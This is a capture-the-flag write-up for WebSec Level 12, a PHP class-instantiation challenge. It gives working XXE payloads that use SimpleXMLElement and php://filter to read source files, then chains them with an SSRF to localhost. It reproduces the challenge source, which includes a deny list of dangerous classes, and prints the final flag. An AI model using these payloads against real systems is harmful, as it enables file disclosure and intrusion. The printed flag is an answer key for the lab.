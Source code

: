 # Level 12

1. First, there is no source code ... so we have to try and guess what's the possibility of this question.
2. Since there is the keyword "class", I google for a long time, such as "php class vulnerability", though there is no result I want. Then, I google "php class vulnerability xml". Finally, I get some information I want. 
https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection
https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
3. So, we can come up with a payload : 
    ```
    <!DOCTYPE foo [
        <!ELEMENT foo ANY> 
        <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]>
    <foo>&xxe; </foo>
    ```
4. Then, we have to google for the class name. I tried such as "simplexml", but it is not the right one. Then I tried "simplexmlelement" and I pass it.
5. Now, lets send the payload with : 
    ```
    'class' : 'simplexmlelement',
     'param1' : '<!DOCTYPE foo [<!ELEMENT foo ANY> <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">]> <foo>&xxe; </foo>',
     'param2' : '2'
    ```
    p.s. I have to say that I really don't know why param2 is "2" cuz I tried a word "flag" and it said too long, then I tried "0" "1" and "2" finally sucess. I'm sorry.
6. Next, we get the base64-encode source code. After decode it, we get : 
    ```
    <!DOCTYPE html>
    <html>
    <head>
        <title>#WebSec Level Twelve</title>

        <link href="/static/bootstrap.min.css" rel="stylesheet" />
        <link href="/static/websec.css" rel="stylesheet" />

        <link rel="icon" href="/static/favicon.png" type="image/png">
    </head>
        <body>
            <div id="main">
                <div class="container">
                    <div class="row">
                        <h1>LevelTwelve <small> - This time, it's different.</small></h1>
                    </div>
                    <div class="row">
                        <p class="lead">
                            Since we trust you <em>very much</em>, you can instanciate a class of your choice, with two arbitrary parameters.</br>
                            Well, except the dangerous ones, like <code>splfileobject</code>, <code>globiterator</code>, <code>filesystemiterator</code>,
                            and <code>directoryiterator</code>.<br>
                            Lets see what you can do with this.
                                    </p>
                    </div>
                </div>
                <br>
                <div class="container">
                    <div class="row">
                        <form name="username" method="post" class="form-inline">
                            <samp>
                            <div class="form-group">
                                <label for="class" class="sr-only">class</label>
                                echo <span class='text-success'>new</span>
                                <input type="text" class="form-control" id="class" name="class" placeholder="class" required>
                                (
                            </div>
                            <div class="form-group">
                                <label for="param1" class="sr-only">first parameter</label>
                                <input type="text" class="form-control" id="param1" name="param1" placeholder="first parameter" required>
                                ,
                            </div>
                            <div class="form-group">
                                <label for="param2" class="sr-only">second parameter</label>
                                <input type="text" class="form-control" id="param2" name="param2" placeholder="second parameter" required>
                                );
                            </div>
                            </samp>
                                <button type="submit" class="btn btn-default">launch!</button>
                        </form>
                    </div>
                    <?php
                    ini_set('display_errors', 'on');
                    ini_set('error_reporting', E_ALL);

                    if (isset ($_POST['class']) && isset ($_POST['param1'])  && isset ($_POST['param2'])) {
                        $class = strtolower ($_POST['class']);

                        if (in_array ($class, ['splfileobject', 'globiterator', 'directoryiterator', 'filesystemiterator'])) {
                    die ('Dangerous class detected.');
                        } else {
                    $result = new $class ($_POST['param1'], $_POST['param2']);
                    echo '<br><hr><br><div class="row"><pre>' . $result . '</pre></div>';
                }
                    }
                    ?>
                </div>
            </div>
        </body>
    </html>

    <?php
    /*
    Congratulation, you can read this file, but this is not the end of our journey.

    - Thanks to cutz for the QA.
    - Thanks to blotus for finding a (now fixed) weakness in the "encryption" function.
    - Thanks to nurfed for nagging us about a cheat
    */

    $text = 'Niw0OgIsEykABg8qESRRCg4XNkEHNg0XCls4BwZaAVBbLU4EC2VFBTooPi0qLFUELQ==';
    $key = ini_get ('user_agent');

    if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {
        if ($_SERVER['HTTP_USER_AGENT'] !== $key) {
            die ("Cheating is bad, m'kay?");
        }

        $i = 0;
        $flag = '';
        foreach (str_split (base64_decode ($text)) as $letter) {
            $flag .= chr (ord ($key[$i++]) ^ ord ($letter));
        }
        die ($flag);
    }
    ?>

    ```
    We can ignore most of it and look up to : 
    ```
    if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1')
    ```
    So, it's pretty clear that this is a SSRF attack. Here is the payload. Of course, we still need XXE attack. 
    ```
    <!DOCTYPE foo [
        <!ELEMENT foo ANY> 
        <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1/level12/index.php">]> 
    <foo>&xxe; </foo>
    ```
    Do the same thing exactly as before, just remember to change param1, then decode the message and get the flag : 
7. Here is the flag : WEBSEC{Many_thanks_to_hackyou2014_web400_MSLC_<3}
